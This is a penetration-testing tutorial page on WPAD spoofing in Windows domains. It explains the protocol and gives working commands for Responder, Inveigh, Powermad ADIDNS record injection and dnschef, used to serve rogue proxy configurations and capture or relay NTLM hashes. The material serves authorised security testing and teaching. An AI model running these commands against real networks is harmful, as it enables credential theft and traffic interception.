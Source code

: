# WPAD spoofing

## Theory

A proxy can be used to handle clients requests (for example to access the Internet). In a network in which the topology changes frequently, adaptive configurations are needed. A type of proxies called "Adaptive proxies" uses a configuration script.

The Web Proxy Automatic Discovery (WPAD) protocol helps clients in finding a proxy configuration script (`wpad.dat`). This script gives a set of proxies that can be used, and can be located with an hostname or an URL. Various mechanisms can be used to find its location (by order of resolution):

1. WinHTTP/WinINET
2. DHCP
3. DNS
4. Internet Explorer's LAN settings, or configuration file

## Practice

WPAD spoofing can be combined with

* [LLMNR and NBT-NS spoofing](llmnr-nbtns-mdns-spoofing.md)
* [DHCP poisoning](dhcp-poisoning.md) combined (or not) with DNS spoofing
* [ARP poisoning](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md), followed by [DNS spoofing](dns-spoofing.md)

{% hint style="info" %}
Proxy auth NTLM authentication can either be

* forced and [captured](../ntlm/capture.md) with Responder with `--wredir` and `--ProxyAuth`
* forced and [relayed](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/) with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) by using the `--http-port 3128` argument
{% endhint %}

### through LLMNR, NBT-NS spoofing

On old Windows systems (i.e. lacking the MS16-077 security update), the WPAD location could be obtained through insecure name resolution protocols like LLMNR and NBT-NS when standard DNS queries were failing (i.e. no DNS record for WPAD). This allowed attackers to operate [LLMNR and NBT-NS spoofing](llmnr-nbtns-mdns-spoofing.md) to answer those WPAD queries and redirect to a fake `wpad.dat` file, hence poisoning the web proxy configuration of the requesting clients, hence obtaining more traffic.

[Responder](https://github.com/SpiderLabs/Responder) (Python) and [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell) are great tools for name poisoning. In addition to name poisoning, they also have the ability to start servers (listeners) that will [capture authentications](../ntlm/capture.md) and echo the NTLM hashes to the attacker.

{% tabs %}
{% tab title="UNIX-like" %}
The following command will start [LLMNR, NBTS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md). Name resolution queries for the wpad server will be answered just like any other query. Fake authentication servers (HTTP/S, SMB, SQL, FTP, IMAP, POP3, DNS, LDAP, ...) will [capture NTLM hashes](../ntlm/capture.md).

* The `-w/--wpad` option will make Responder start the WPAD rogue server so that fake `wpad.dat` file can be served to requesting clients.
* The `-P/--ProxyAuth` option to force the Windows client to authenticate after the `wpad.dat` is accessed and when the client starts using the proxy

```bash
responder --interface "eth0" --wpad --ProxyAuth
responder -I "eth0" -wP
```
{% endtab %}

{% tab title="Windows" %}
The following command will start [LLMNR, NBTS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md). Name resolution queries for the wpad server will be answered just like any other query. Fake authentication servers (HTTP/S, SMB, SQL, FTP, IMAP, POP3, DNS, LDAP, ...) will [capture NTLM hashes](../ntlm/capture.md) (even from machine accounts) and set the Challenge to `1122334455667788` (to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)).

* Inveigh starts a WPAD rogue proxy server by default.
* Options like `-WPADAuth`, `-WPADAuthIgnore`, `-WPADIP`, `-WPADPort`, `-WPADResponse` (and others) can be used to tweak the WPAD abuse.

```
Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```
{% endtab %}
{% endtabs %}

### through ADIDNS spoofing

On up-to-date machines (i.e. with the MS16-077 security update applied), WPAD can still be abused through [ADIDNS spoofing](adidns-spoofing.md) if the WPAD record does not exist. There is however a DNS block list mitigation called GQBL (Global Query Block List) preventing names like WPAD and ISATAP (default entries) to be resolved. This block list exists to reduce vulnerabilities associated with dynamic DNS updates but [it can be edited](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc995158\(v=technet.10\)) when [implementing WPAD](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc995261\(v=technet.10\)).

#### Pre CVE-2018-8320

On machines that are not patched against [CVE-2018-8320](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8320), there are two ways to bypass the GQBL: by [registering a wildcard record](adidns-spoofing.md#manuel-record-addition) or by registering a domain alias (DNAME) record, which can be conducted as follows with [Powermad](https://github.com/Kevin-Robertson/Powermad) (Powershell).

```bash
New-ADIDNSNode -Node '*' -Data 'Pentest_IP_Address'
New-ADIDNSNode -Node wpad -Type DNAME -Data 'pentester01.TARGETDOMAIN.LOCAL'
```

#### Post CVE-2018-8320

On machines that are patched against that CVE, registering a name server (NS) record could still work.

```bash
New-ADIDNSNode -Node wpad -Type NS -Data 'pentester01.TARGETDOMAIN.LOCAL'
```

In order for the NS record technique to work, the tester has to have a DNS server running for [DNS spoofing](dns-spoofing.md). This can easily be accomplished with [dnschef](https://github.com/iphelix/dnschef) (Python).

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### through DHCPv6 spoofing

On up-to-date machines (i.e. with the MS16-077 security update applied), WPAD can still be abused through [ADIDNS spoofing](adidns-spoofing.md), **even if the WPAD record does exist**. With DNS poisoning through DHCPv6 spoofing, an attacker can reply to DHCPv6 requests, and then reply to DNS queries.

This attack can be conducted with [mitm6](https://github.com/fox-it/mitm6) (Python), see the [DHCPv6 spoofing](dhcpv6-spoofing.md) page for exploitation notes.

## Resources

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://www.fox-it.com/en/news/blog/mitm6-compromising-ipv4-networks-via-ipv6/" %}
